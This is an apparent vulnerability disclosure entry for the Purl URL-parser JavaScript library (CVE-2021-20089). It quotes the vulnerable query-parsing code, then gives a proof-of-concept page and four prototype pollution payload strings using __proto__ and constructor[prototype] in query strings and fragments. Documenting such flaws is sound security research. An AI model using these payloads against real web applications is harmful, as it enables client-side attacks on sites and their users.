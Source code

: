 ## Purl (jQuery-URL-Parser)

URL: https://github.com/allmarkedup/purl

### CVE
[CVE-2021-20089](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-20089)

### Vulnerable code fragment

https://github.com/allmarkedup/purl/blob/6df9a03833ebbd479baede1e0111186a5d9906a2/purl.js#L111-L126

```js
    uri.param['query'] = parseString(uri.attr['query']);
    uri.param['fragment'] = parseString(uri.attr['fragment']);
    
    ...

    function parseString(str) {
        return reduce(String(str).split(/&|;/), function(ret, pair) {
            try {
                pair = decodeURIComponent(pair.replace(/\+/g, ' '));
            } catch(e) {
                // ignore
            }
            var eql = pair.indexOf('='),
                brace = lastBraceInKey(pair),
                key = pair.substr(0, brace || eql),
                val = pair.substr(brace || eql, pair.length);

            val = val.substr(val.indexOf('=') + 1, val.length);

            if (key === '') {
                key = pair;
                val = '';
            }

            return merge(ret, key, val);
        }, { base: {} }).base;
    }

    ...

    function merge(parent, key, val) {
        if (~key.indexOf(']')) {
            var parts = key.split('[');
            parse(parts, parent, 'base', val);
        } else {
            if (!isint.test(key) && isArray(parent.base)) {
                var t = {};
                for (var k in parent.base) t[k] = parent.base[k];
                parent.base = t;
            }
            if (key !== '') {
                set(parent.base, key, val);
            }
        }
        return parent;
    }
```

### PoC
```html
<script/src="https://cdnjs.cloudflare.com/ajax/libs/purl/2.3.1/purl.js"></script>
<script>
  purl('http://test/?__proto__[test1]=test1#__proto__[test2]=test2')
</script>
```
```
?__proto__[test]=test
?constructor[prototype][test]=test
#__proto__[test]=test
#constructor[prototype][test]=test
```